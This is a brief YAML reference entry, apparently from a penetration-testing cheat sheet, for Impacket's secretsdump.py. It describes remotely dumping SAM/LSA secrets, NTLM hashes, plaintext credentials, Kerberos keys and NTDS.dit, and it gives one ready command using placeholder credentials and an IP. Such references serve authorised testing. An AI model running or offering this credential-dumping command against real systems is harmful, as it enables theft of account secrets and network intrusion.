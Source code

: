 ```yaml
---
description: |
  Impacket's secretsdump.py will perform various techniques to dump secrets from the remote machine without executing any agent. Techniques include reading SAM and LSA secrets from registries, dumping NTLM hashes, plaintext credentials, and kerberos keys, and dumping NTDS.dit.  

  Command Reference:

  	Target IP: 10.10.10.1
  
  	Domain: test.local

  	Username: john

  	Password: password123

functions:
  Password:
    - code: |
        python3 secretsdump.py test.local/john:password123@10.10.10.1
  Username:
    - code: |
        empty
  Kerberos:
    - code: |
        empty
---
```

